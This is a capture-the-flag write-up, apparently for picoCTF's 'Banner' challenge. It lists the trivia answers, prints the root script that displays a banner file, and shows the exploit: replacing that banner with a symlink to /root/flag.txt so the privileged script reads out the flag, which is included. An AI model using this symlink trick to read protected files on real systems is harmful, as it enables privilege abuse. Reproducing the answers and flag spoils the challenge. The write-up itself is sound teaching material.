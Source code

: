 # Solution

What is the password?  
- My_Passw@rd_@1234  
What is the top cyber security conference in the world?  
- DEF CON  
the first hacker ever was known for phreaking(making free phone calls), who was it?  
- ’JOHN DRAPER’/ ‘JOHN THOMAS DRAPER’/ ‘JOHN’/ ‘DRAPER’

```bash
player@challenge:~$ cat /root/script.py  
cat /root/script.py  
  
import os  
import pty  
  
incorrect_ans_reply = "Lol, good try, try again and good luck\n"  
  
if __name__ == "__main__":  
try:  
with open("/home/player/banner", "r") as f:  
print(f.read())  
except:  
print("*********************************************")  
print("***************DEFAULT BANNER****************")  
print("*Please supply banner in /home/player/banner*")  
print("*********************************************")  
  
try:  
request = input("what is the password? \n").upper()  
while request:  
if request == 'MY_PASSW@RD_@1234':  
text = input("What is the top cyber security conference in the world?\n").upper()  
if text == 'DEFCON' or text == 'DEF CON':  
output = input(  
"the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()  
if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':  
scmd = 'su - player'  
pty.spawn(scmd.split(' '))  
  
else:  
print(incorrect_ans_reply)  
else:  
print(incorrect_ans_reply)  
else:  
print(incorrect_ans_reply)  
break  
  
except:  
KeyboardInterrupt
```

```bash
player@challenge:~$ rm banner
rm banner
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
```

```bash
╭─[~]─[at0m@heker]─[0]─[5031]
╰─[:)] %  nc tethys.picoctf.net 52724
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}

what is the password? 
```

- Symlinks act as reference pointers to files or directories. We can think of the symlinks as a shortcut to the file like if we link **link1 -> /root/flag.txt**, **calling** **link1** means to **call /root/flag.txt**.

-  `picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}`

---
